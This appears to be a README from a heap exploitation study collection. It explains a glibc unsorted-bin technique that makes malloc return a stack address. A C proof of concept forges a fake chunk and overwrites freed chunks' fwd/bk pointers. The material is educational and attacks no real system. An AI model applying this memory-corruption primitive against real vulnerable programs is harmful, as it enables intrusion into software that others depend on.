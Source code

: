 <details>
<summary><strong>Description</strong></summary>
<p>

we will be trying to get malloc to allocate a ptr on the stack. This will be done via leveraging the unsorted bin linked list...
> i modified the shogun poc (easier?)

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, stack_array[10], *chunk3;

    // allocate two unsortedbin range chunks
    chunk0 = malloc(0x420);
    malloc(0x18); // padding to prevent consolidation
    chunk1 = malloc(0x420);
    malloc(0x18); // padding to prevent consolidation

    free(chunk0); // insert them into the unsorted bin
    free(chunk1);

    // create the unsorted bin fake chunk header
    // stack_array[0] = 0x00; // fake chunk's prev_size (usually we dont need to care about this)
    stack_array[1] = 0x41; // fake chunk's size (turn on the prev_inuse for easier)

    // add a fake heap chunk header, right after the end of our fake unsorted bin chunk
    // this is because there are checks for the next adjacent chunk, since if malloc properly allocated this (fake) chunk, there would be one there
    stack_array[8] = 0x40; // fake adjacent chunk prev_size
    stack_array[9] = 0x50; // fake adjacent chunk size (turn off the prev_inuse)

    // set the fwd/bk pointers of our unsorted bin fake chunk, so that they point to the two chunks were linking to here
    stack_array[2] = ((long)chunk0 - 0x10); // fwd
    stack_array[3] = ((long)chunk1 - 0x10); // bk

    // now we will link in our fake chunk via overwriting the fwd/bk ptr of two other chunks in the unsorted bin
    // which we have already linked against with our fake unsorted bin chunk
    /*VULNERABILITY*/
    chunk0[1] = (long)(stack_array); // bk
    chunk1[0] = (long)(stack_array); // fwd
    /*VULNERABILITY*/

    // now fake chunk is in unsortedbin and ready to allocate (it will act like normal unsortedbin (behaviour))
    chunk3 = malloc(0x38);

    printf("chunk3: %p\n", chunk3);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

we will effectively create a fake unsorted bin chunk, and overwrite the fwd ptr of one unsorted bin chunk, and the bk ptr of another unsorted bin chunk to effectively insert the fake unsorted bin chunk into the unsorted bin. For the fake unsorted bin chunk, we will set the fwd/bk ptrs to the two chunks we linked to the fake unsorted bin chunk, as it should

we will need to set some things for the fake unsorted bin chunk. We will need to set the `prev_size` (to `0x01`), and the size of the chunk header (I will be setting it to `0x41`). In addition to that, we will need to make a fake chunk header right after our fake chunk, as there should be one if this was an actual malloc chunk. The `prev_size` must match the size of our chunk, which will be `0x40`.  For the size, I just put 0x50 (not a lot of thought here, the `prev_inuse` isn't set, however this might cause some problems under the right condition)...

in summary, for the size of the fake unsorted bin chunk, there are three main considerations for it. **The first**, is that the amount of data we will be able to write to the chunk will be directly tied to the size of it. **The second** is that we will need a fake chunk header right after our fake unsorted bin chunk, whose location will be determined by the start of our fake unsorted bin chunk, and its size. **The third** consideration, is if the chunk gets moved over into either a small / large bin, its size will determine which bin it gets moved over into.

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/unsorted_bin/unsorted_linked/readme.md
> i modified this a little bit (easier)

</p>
</details>